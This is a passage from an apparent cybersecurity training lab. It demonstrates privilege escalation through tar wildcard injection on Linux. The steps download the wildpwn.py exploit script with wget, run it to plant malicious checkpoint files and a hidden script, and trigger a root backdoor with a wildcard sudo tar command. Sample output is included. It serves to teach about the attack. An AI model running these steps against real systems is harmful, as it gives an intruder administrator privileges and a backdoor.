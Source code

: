 The hacker cannot simply run `.webscript` on their own, because they don’t have root privileges. They must wait for the system administrator to run it in order to later impersonate them.


#### Exploiting `tar` Demo

We'll use the following scenario: 

- A hacker has gained access to our system by stealing the password for the instructor user. 

- Although for this example we will pretend that instructor user does not have root access, in your activity you will truly be working on a user without root access. 

- We will be taking the role of the hacker and will use `wildpwn.py` to plant malicious files. These files will be executed when an administrator with root privileges runs the tar command. 

Open up a terminal and run the following commands:

- Create a new directory for this demonstration: `mkdir Documents/exploit_demo`

- Move to the `exploit_demo` directory: `cd /home/instructor/Documents/exploit_demo`

    - This is the directory to which the hacker would download the `wildpwn.py` program. 

Download the script with `wget`. 

- Then, run `ls -l` to show that the `wildpwn.py` program is in this directory. 

    ```
     wget https://raw.githubusercontent.com/localh0t/wildpwn/master/wildpwn.py
     ls -l
     -rw-r--r--   1 instructor  instructor   3.6K Dec 19 12:46 wildpwn.py
    ```

Type  `python wildpwn.py tar .` This will create both the malicious script and checkpoint files.

- Syntax breakdown:

    - `python` is used to run Python programs.
    - `wildpwn.py` is the program we’re executing.
    - `tar` tells `wildpwn.py` to create malicious files that will exploit the `tar` command. This is necessary because `wildpwn.py` can exploit other commands as well.
    - The `.` specifies that these files should be created in the current directory.

- Run the command and show the output:

    - `python wildpwn.py tar .`
    ```  
    [!] selected payload tar
        
    [*] Done! Now wait for something like: archive.tar * on . Good Luck!
    ```
- The script is now listening for someone to use the tar command. Let's archive this directory to activate the script.

Move into `exploit_demo`: `cd ~/Documents/exploit_demo`.

Now, use `tar` with a wildcard to create an archive and generate the malicious files: `sudo tar cf archive.tar *`

- Note that this command is run from _inside_ the directory where `.webscript` is located. If it were run elsewhere, the backdoor would not be generated.

